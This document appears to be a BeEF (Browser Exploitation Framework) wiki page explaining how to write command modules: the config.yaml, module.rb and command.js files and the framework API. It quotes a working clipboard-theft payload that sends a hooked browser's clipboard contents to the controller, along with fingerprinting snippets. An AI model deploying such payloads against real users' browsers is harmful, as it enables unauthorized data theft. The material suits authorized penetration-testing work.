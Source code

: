 ## Introduction

BeEF has been designed in a modular way, it is so very easy to create a new module and add it to BeEF.

Basically, modules are all stored in the [module](https://github.com/beefproject/beef/tree/master/modules) directory and are composed of three main files :
* **config.yaml** : The YAML configuration file which describe properties of the module
* **module.rb**  which allow integrating the module in the BeEF web interface
* **command.js** : the JavaScript "payload" which will be executed on the hooked browser

## <a name="config"/>YAML Configuration file 

The YAML configuration file embeds five informations :
* The name of the plugin
* The name of the author
* The description of the plugin
* The category of the plugin
* The browsers and OS that can be targeted or not

For example, here is the config.yaml of the [detect_firebug](https://github.com/beefproject/beef/blob/master/modules/browser/detect_firebug/config.yaml) plugin:
```yaml
beef:
    module:
        detect_firebug:
            enable: true
            category: "Browser"
            name: "Detect FireBug"
            description: "This module checks if the Mozilla Firefox Firebug extension is being use to inspect the current window."
            authors: ["bcoles"]
            target:
                 working: ["FF"]
                 not_working: ["All"]
```

Regarding list of browser, three arrays can be defined : **working**, **not_working** or **user_notify**. Browsers are defined by their main letters : **"FF"**, **"O"**, **"C"**, **"S"**, **"IE"** or **"All"**.

It is possible to define versions exploitable by providing the minimum and maximum version of each browser. The [get_visited_url](https://github.com/beefproject/beef/blob/master/modules/browser/get_visited_urls/config.yaml) plugin is a good example :
```yaml
target:
    working:
        IE:
            min_ver: 6
            max_ver: 7
        FF:
            min_ver: 3
            max_ver: 3
        C:
            min_ver: 1
            max_ver: 5
        S:
            min_ver: 3
            max_ver: 3
        O:
            min_ver: 1
            max_ver: 10
    not_working: ["All"]
```

You can find more detailed information on [[this page|Command-Module-Config]].

## <a name="modulerb"/>Interface with rails web GUI

Next, you need to write the _module.rb_ file which will allow to be included in the BeEF interface. Don't Panic, you won't need to be a rails guru to write such file, BeEF defined high level methods and objects to do this.

### Basic architecture

Basically, your file will look like this :
```ruby
class Your_module < BeEF::Core::Command

    # This method allows defining the options proposed to the user in the interface
    def self.options
    end

    # This method will be called before sending the payload
    def pre_send
    end

    # This method will be called when BeEF will receive an answer from the hooked browser
    def post_execute
    end
end
```

### Defining data types

The **self.options** method should return an array which defines data proposed to the user. Here is an example with different fields taken from existing modules :

```ruby
  def self.options
    return [{
      'name'=>'key_paths', 
      'ui_label' => 'Key(s)',
      'description' => 'Enter registry keys. Note: each key requires its own line', 
      'type'=>'textarea', 
      'width' => '500px', 
      'height' => '350px', 
      'value'=>'HKLM\\SYSTEM\\CurrentControlSet\\Control\\SystemInformation\\SystemProductNam'
    },
    {
      'name' => 'iFrameSandbox',
      'ui_label' => 'Sandbox', 
      'type' => 'checkbox',
      'checked' => 'checked' 
    },
    {
      'name' => 'choice', 
      'type' => 'combobox',
      'ui_label' => 'Dialog Type',
      'store_type' => 'arraystore', 
      'store_fields' => ['choice'], 
      'store_data' => [['Facebook'],['LinkedIn'],['Generic']], 
      'valueField' => 'choice', 
      'value' => 'Facebook', 
      editable: false, 
      'displayField' => 'choice', 
      'mode' => 'local', 
      'autoWidth' => true 
    }]
  end
```

More detailed information on data types can be found [[here|Form-Data-Types]]

### Save returned information

It is possible to save information gathered by the script in the list of information on the hooked browser. This action should be done in the **post_execute** function, for example here is the source code of the [browser_fingerprint](https://github.com/beefproject/beef/blob/master/modules/browser/browser_fingerprinting/module.rb) plugin :

```ruby
  def post_execute
    content = {}
    content['browser_type'] = @datastore['browser_type'] if not @datastore['browser_type'].nil?
    content['browser_version'] = @datastore['browser_version'] if not @datastore['browser_version'].nil?
    if content.empty?
      content['fail'] = 'Failed to fingerprint browser.'
    end
    save content
  end
```

* **@datastore** is a dictionary of information returned by the JavaScript payload
* The function define a dictionary and save it with the **save** function.

## <a name="javascriptpayload"/>Javascript payload

The last mandatory file is the JavaScript payload **command.js**. The JavaScript payload should be included in a function called by **beef.execute**. Except that you can do anything you want here.

The following command should be used to return information to the BeEF controller :
```erb
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The BeEF JavaScript API already includes a lot of interesting features and embed jQuery. You can see details on this API [[here|Javascript-API]]. If you think that some functions of your module may improve the global API, look the [[relevant section|Javascript-API#wiki-improve]].

Here is an interesting example taken from [clipboard_theft](https://github.com/beefproject/beef/blob/master/modules/host/clipboard_theft/command.js) :

```Javascript
beef.execute(function() {
  if (clipboardData.getData("Text") !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard="+clipboardData.getData("Text"));
  } else {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard=clipboardData.getData is null or not supported.");
  }
});
```

## Other useful examples

### Bind an external object to a given URI

You can bind an external object to a defined URI in order to use it from the hooked browser :

```ruby
class Your_module < BeEF::Core::Command
    def pre_send
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind('/path/to/file','/uri','extension')
    end

    def post_execute
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.unbind('/uri.extension')
    end 
end
```

### Bind a raw HTTP response (headers and body) to a given URI :

```ruby
  def pre_send
    BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind_raw('200', {'Content-Type'=>'text/html'}, 'hello world!', '/hello_world', -1)
  end
```

### Use BeEF configuration information

You can use information of the BeEF configuration in your module.rb :

```ruby
class Your_module < BeEF::Core::Command
    def self.options
        configuration = BeEF::Core::Configuration.instance
        hook_uri = "http://#{configuration.get("beef.http.host")}:#{configuration.get("beef.http.port")}/demos/report.html"
        return [
            {'name' => 'url', 'ui_label'=>'URL', 'type' => 'text', 'width' => '400px', 'value' => hook_uri },
        ]
    end 
end
````

## What now ?

If you think that your module can be useful to other people, join the BeEF community on GitHub, fork the beef repository, upload your module and create a new issue for proposing it. We like people with new ideas :).

## References

* [[Reference Page on config.yaml file|Command-Module-Config]]
* [[Reference Page on format type for module.rb file|Form-Data-Types]]

***

[[Previous|BeEF-Console]] | [[Next|WebRTC-Extension]]